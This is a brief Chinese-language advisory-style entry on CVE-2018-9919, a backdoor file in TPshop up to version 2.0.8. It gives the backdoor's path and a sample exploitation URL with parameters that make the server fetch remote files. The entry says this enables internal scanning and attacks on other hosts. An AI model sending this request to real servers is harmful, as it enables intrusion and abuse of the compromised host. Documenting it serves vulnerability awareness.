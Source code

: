 ```yaml
---
title: （CVE-2018-9919）Thinkphp Shop后门
id: zhfly3181
---
```


# （CVE-2018-9919）Thinkphp Shop后门

## 一、漏洞简介

该漏洞源于/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php可以将文件下载到其他服务器上。远程攻击者可利用该漏洞获取敏感信息，并可能执行命令。

## 二、漏洞影响

Backdoor in Tpshop <= 2.0.8

## 三、复现过程

攻击者可以利用此漏洞来攻击服务器并增加其特权，例如：下载任意文件PS！扫描网络端口PS！信息检测，攻击内部网络易受攻击的服务器。

http://www.0-sec.org/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php?bddlj=save_filename&down_url=download_url&jmmy=decryptpass